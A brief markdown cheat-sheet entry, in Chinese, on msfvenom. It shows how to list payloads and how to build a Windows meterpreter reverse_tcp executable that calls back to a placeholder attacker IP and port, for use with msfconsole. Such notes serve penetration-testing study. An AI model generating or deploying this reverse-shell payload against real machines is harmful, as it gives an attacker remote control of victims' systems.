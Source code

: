 ## msfvenom
`-l payloads` 回显所有可生成的木马
`-p windows/meterpreter/reverse_tcp LHOST=IP LPORT=端口 -f exe -o 路径` 可以在 msfconsole 中使用

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTY0NjQ0Njk2NCw3MzUxNjQ3NTJdfQ==
-->